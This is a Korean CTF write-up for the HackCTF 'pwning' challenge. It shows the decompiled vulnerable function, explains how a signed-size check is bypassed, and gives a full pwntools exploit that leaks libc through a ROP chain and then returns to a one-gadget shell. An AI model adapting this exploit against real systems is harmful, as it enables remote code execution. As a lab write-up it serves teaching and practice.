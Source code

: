 ```yaml
---
title: "[HackCTF]pwning"
date: 2019-12-26
ctf: HackCTF
layout: post
---
```


그냥 underflow 이용해서 입력할 수 있는 공간을 늘려줄 수 있다면 쉽게 풀 수 있다.

`int $0x80` 있어서 syscall exploit인줄 알고 삽질했다.. pop 가젯이 부족해서 불가능이였다.

```c
int vuln()
{
  char nptr; // [esp+1Ch] [ebp-2Ch]
  int v2; // [esp+3Ch] [ebp-Ch]

  printf("How many bytes do you want me to read? ");
  get_n(&nptr, 4u);
  v2 = atoi(&nptr);
  if ( v2 > 32 )
    return printf("No! That size (%d) is too large!\n", v2);
  printf("Ok, sounds good. Give me %u bytes of data!\n", v2);
  get_n(&nptr, v2);
  return printf("You said: %s\n", &nptr);
}
```

`get_n` 함수는 그냥 \n 받기전까지 입력된다. 그리고 v2가 int형이라 underoverflow를 이용해서 값을 늘려줄 수 있다. 

나는 printf를 릭해주고 libc 구한 후에 main으로 돌려서 맞는 libc의 원샷 가젯 찾아서 메인에서 리턴해줬다.

원샷은 libc 다운로드 받아서 one_gadget 돌렸다. libc는 버전 맞춰서 [printf offset](https://libc.blukat.me/?q=printf%3A020&l=libc6-i386_2.23-0ubuntu10_amd64) 구한다음에 libc base 구해줬다.

```python
from pwn import *

#context.log_level = 'debug'
e = ELF('./pwning')
p = remote('ctf.j0n9hyun.xyz',3019)
#p = process('./pwning')
r = ROP(e)

p.sendlineafter('? ',str(-1))

payload = '\x90'*0x2c
payload += 'sung'
r.printf(e.got['printf'])
r.raw(e.symbols['main'])
payload += r.chain()
p.sendlineafter('!\n',payload)

p.recvuntil('\n')
printf = u32(p.recv(4))
log.info('printf : '+ hex(printf))
libc_base = printf - 0x049020
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter('? ',str(-1))

payload2 = '\x90'*0x2c
payload2 += 'sung'
payload2 += p32(libc_base + 0x3a80c)

p.sendlineafter('!\n',payload2)
p.interactive()
```

